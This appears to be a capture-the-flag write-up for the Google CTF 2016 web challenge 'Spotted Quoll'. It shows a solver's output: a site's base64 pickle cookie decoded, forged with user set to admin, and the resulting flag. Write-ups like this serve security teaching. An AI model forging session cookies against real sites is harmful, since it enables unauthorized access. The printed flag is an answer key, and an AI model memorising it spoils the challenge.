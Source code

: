 # Google CTF 2016 : Spotted Quoll

**Category:** Web
**Points:** 50
**Solves:** 413
**Description:**

[This](https://spotted-quoll.ctfcompetition.com/) blog on Zombie research looks like it might be interesting - can you break into the /admin section?


## Write-up

### Script Output
```
HTML:
<html>
<head>
  <link href="/static/bootstrap.min.css" rel="stylesheet">
  <link href="/static/jumbotron-narrow.css" rel="stylesheet">
</head>
<body>

    <div class="container">
      <div class="header clearfix">
        <nav>
          <ul class="nav nav-pills pull-right">
            <li role="presentation" class="active"><a href="#">./boringblog</a></li>
            <li role="presentation"><a href="/admin">Admin</a></li>
          </ul>
        </nav>
        <h3 class="text-muted">yawn</h3>
      </div>

      <div class="jumbotron">
        <h1>My Zombie Research Project</h1>
        <p class="lead">./boringblog</p>
      </div>

      <div class="row marketing">
        <div class="col-lg-12">
          <h3>Blog Development - 20th January, 2016</h3>
          <p>I don't have much content yet, except for my admin page. Stay tuned for more information</p>
        </div>
      </div>
      <iframe style="border: 0;" src="/getCookie"></iframe>
    </div> <!-- /container -->

</body>
</html>

Cookies:
<RequestsCookieJar[<Cookie obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu for spotted-quoll.ctfcompetition.com/>]>

Real Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': None}

Spoofed Admin Pickle:
{'python': 'pickles', 'subtle': 'hint', 'user': 'admin'}

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```

Flag
```
CTF{but_wait,theres_more.if_you_call}
```

[Python script](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/SpottedQuoll/pwn.py)
